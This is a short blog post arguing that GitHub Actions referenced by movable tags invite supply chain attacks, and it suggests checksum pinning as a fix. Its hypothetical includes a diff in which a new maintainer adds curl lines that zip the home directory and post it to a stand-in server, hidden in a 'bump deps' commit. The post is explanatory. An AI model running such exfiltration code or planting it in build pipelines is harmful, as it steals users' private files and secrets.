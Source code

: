 ```yaml
---
date: 20240511
---
```


# GitHub Actions beg for a supply chain attack

When the GitHub Actions runner sees

```yaml
- name: Clone repository
  uses: actions/checkout@v4
```

it `git clone`s the `checkout` repository of the `actions` user/organization on
GitHub and then switches to the git tag named `v4`. The `actions` org is
maintained by GitHub staff, so we trust it to be secure and well-behaved.

Recently though, a cool new framework is taking off. It's called `foo`. Your
company decides to build a project with it and one of your tasks in the current
sprint is to set up a CI pipeline. Fortunately, the open-source community
delivers once again; you quickly discover that somebody has already created an
Action to make setup easy:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
```

Some time later `alice` stops maintaining the `setup-foo` action, but she wants
the Action to live on, so she appoints a new friendly person who's been around
the repo for a while and contributed a few PRs. That's how `malloy` becomes the
maintainer of `setup-foo`.

Some time later, `malloy` makes a new release of `setup-foo` with the following
code:

```diff
 #!/usr/bin/env sh
 echo "imagine there is shell code here"
+cd ~ && zip -r nothing_really.zip .
+curl \
+  --request POST https://totally-legit-server.ru \
+  --form "file=@$HOME/nothing_really.zip"
+cd -
 echo "legit shell code"
 echo "more legit shell code"
```

The change is introduced in a commit with the message "bump deps" that removes
6969 and adds 2137 lines of code to many files, mostly `package-lock.json`. Then
`malloy` releases this new version as `v2.1`:

```console
git commit -m "bump deps" && git push origin master
git tag v2.1
```

and then he moves the `v2` tag to point to the same commit as `v2.1`, [**just
like GitHub recommends**][gh]:

```console
git tag --delete v2 # delete tag locally
git push origin :v2 # delete tag on the remote
git tag v2
git push --tags
```

It's a Friday night. Hundreds of thousands of nightly builds run, in thousands
of repositories, including private ones.

No one notices anything for a few days.

---

My knowledge of the cybersecurity landscape is very basic, but I suppose a
solution could be for GitHub to deprecate the current way of using external
actions, and require us to provide a checksum:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
  sha256: ea3a03b4971eeb62730e1de238225cc4e6145f0eb50ad28b1379f2a2ee71e16e
```

The problem with the above is twofold:

- First and foremost, it no longer looks as sexy.
- Realistically, who checks the diff when bumping the dependencies?

---

I maintain the `subosito/flutter-action` (it should be named `setup-flutter`).
If you enjoyed the read, consider [sending me a few bucks for coffee][sponsor].
I pinky promise to never perform a supply chain attack on you.

[gh]: https://docs.github.com/en/actions/creating-actions/about-custom-actions#using-tags-for-release-management
[sponsor]: https://github.com/sponsors/bartekpacia

